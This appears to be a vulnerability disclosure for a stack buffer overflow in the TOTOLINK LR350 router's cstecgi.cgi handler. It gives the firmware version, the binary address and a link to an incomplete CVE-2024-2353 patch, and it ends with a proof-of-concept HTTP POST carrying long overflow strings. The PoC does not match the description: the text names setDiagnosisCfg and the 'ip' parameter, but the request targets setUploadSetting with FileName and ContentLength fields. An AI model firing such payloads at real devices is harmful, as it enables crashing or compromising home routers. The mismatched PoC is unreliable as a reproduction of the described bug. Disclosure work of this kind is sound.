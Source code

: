 # totolink LR350
## Firmware version
totolink LR350 devices through v9.3.5u.6698_b20230810
## description
In totolink LR350 v9.3.5u.6698_b20230810 the file /cgi-bin/cstecgi.cgi setDiagnosisCfg contains a buffer overflow vulnerability. This is  due to incomplete patch for CVE-2024-2353, which only patch command injection vulnerability but not buffer overflow vulnerability
## detail
The bug in function addr 0x420390, binary /cgi-bin/cstecgi.cgi
The parameter 'ip' pass to sprintf if it passes `validity_check`
.Which may cause stack buffer overflow.
![setDiagnosisCfg](image.png)
![validity_check](image-1.png)

## Send packet
```txt
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Accept: */*
Connection: keep-alive
Host: 127.0.0.1
Content-Type: application/json
Content-Length: 325

{"topicurl": "setUploadSetting", "FileName": "aaawzqaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaawzqwaaaaaaaaaaaaaaaaaaaaawzqwaaaaaaaa", "ContentLength": "aaawzqaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaawzqwaaaaaaaaaaaaaaaaaaaaawzqwaaaaaaaa"}
```
